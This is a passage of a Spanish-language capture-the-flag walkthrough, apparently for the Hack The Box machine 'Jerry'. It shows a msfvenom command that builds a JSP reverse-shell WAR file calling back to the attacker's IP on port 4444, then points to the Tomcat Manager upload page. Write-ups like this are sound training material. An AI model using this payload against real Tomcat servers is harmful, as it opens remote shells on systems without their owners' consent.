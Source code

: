 Desplegar un payload `.war` en el **Apache Tomcat Manager** para conseguir acceso remoto y buscar la flag final del sistema 🕵️‍♂️

### 🧪 Paso 1: Generar el `.war` con `msfvenom`

Creamos una **reverse shell compatible con Tomcat** (basada en JSP):

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=4444 -f war -o shell5.war
```

![](../img/396ce6e9ddf75c1f4e17efc8f53e2475.png)

🔹 `LHOST` = nuestra IP tun0  
🔹 `LPORT` = puerto en el que escucharemos  
🔹 `-f war` = formato compatible con Tomcat  
🔹 `-o shell5.war` = nombre del archivo generado

📦 **Payload generado con éxito**: `shell5.war` ✅  
📏 Tamaño: 1079 bytes  
📍 Ubicado en nuestro sistema para subirlo después.


---

### 🧪 Paso 2: Subir el `.war` al Tomcat Web Application Manager

📍 Accedemos a:

```bash
http://jerry.htb:8080/manager/html
```

➡️ Vamos a la sección:

![](../img/dacf4e58e85d32156ab4f49e6c820d40.png)

🟢 **Resultado:**

![](../img/aebd0f1eea899ec7f360a135c800e722.png)
